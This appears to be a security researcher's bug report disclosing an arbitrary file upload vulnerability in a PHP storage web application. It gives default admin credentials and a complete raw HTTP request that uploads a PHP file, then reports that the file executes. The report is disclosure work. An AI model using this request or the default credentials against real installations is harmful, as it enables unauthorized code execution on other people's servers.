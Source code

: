 BUG_Author: bit3hh

Vulnerability url: /storage/classes/Users.php?f=save

post form-data parameter 'filename' exists arbitrary file upload

##### Steps to reproduce

1.Go to the admin Dashboard

http://localhost/storage/admin/login.php

Default Admin Access Information

Username: admin / Password: admin123

2.Click on User List and Click on +Create New

![image](https://github.com/ret2hh/bug_report/blob/main/upload1.png)

3.Any file can be uploaded, such as uploading php code

```
POST /storage/classes/Users.php?f=save HTTP/1.1
Host: localhost
Content-Length: 782
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryWEK02qqTsnNh5aIU
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/storage/admin/?page=user/manage_user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=31osi92l18vkna98judnbogmkg
Connection: close

------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="firstname"

a
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="lastname"

b
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="username"

c
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="password"

d
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="type"

1
------WebKitFormBoundaryWEK02qqTsnNh5aIU
Content-Disposition: form-data; name="img"; filename="info.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>
------WebKitFormBoundaryWEK02qqTsnNh5aIU--
```

4.Access to uploaded files can be executed successfully

![image](https://github.com/ret2hh/bug_report/blob/main/upload2.png)
